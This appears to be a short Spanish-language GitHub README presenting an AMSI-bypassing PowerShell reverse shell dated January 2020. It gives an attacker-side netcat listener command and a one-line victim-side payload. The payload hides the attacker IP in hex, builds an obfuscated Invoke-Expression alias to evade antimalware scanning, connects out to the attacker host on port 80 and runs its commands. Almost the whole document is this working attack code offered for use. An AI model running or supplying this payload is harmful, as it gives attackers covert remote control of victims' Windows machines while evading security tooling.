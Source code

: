 # AMSI Bypass (Enero 2020)

> Oscar Atienza | Aka x25s Aka oski02

----------------------------------------------

Este repositorio recopila los AMSI BYPASS de 2020 

----------------------------------------------



## AMSI Bypass Enero 2020 (Powershell Reverse Shell)





Atacante:

```
printf “%x,%x,%x,%x\n" 192 168 233 130
nc -lnvp 80
```

Victima:

```
while ($true) {$px = "c0","a8","e9","82";$p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.';$w = "GET /index.html HTTP/1.1`r`nHost: $p`r`nMozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0`r`nAccept: text/html`r`n`r`n";$s = [System.Text.ASCIIEncoding];[byte[]]$b = 0..65535|%{0};$x = "n-eiorvsxpk5";Set-alias $x ($x[$true-10] + ($x[[byte]("0x" + "FF") - 265]) + $x[[byte]("0x" + "9a") - 158]);$y = New-Object System.Net.Sockets.TCPClient($p,80);$z = $y.GetStream();$d = $s::UTF8.GetBytes($w);$z.Write($d, 0, $d.Length);$t = (n-eiorvsxpk5 whoami) + "$ ";while(($l = $z.Read($b, 0, $b.Length)) -ne 0){;$v = (New-Object -TypeName $s).GetString($b,0, $l);$d = $s::UTF8.GetBytes((n-eiorvsxpk5 $v 2>&1 | Out-String )) + $s::UTF8.GetBytes($t);$z.Write($d, 0, $d.Length);}$y.Close();Start-Sleep -Seconds 5}
```
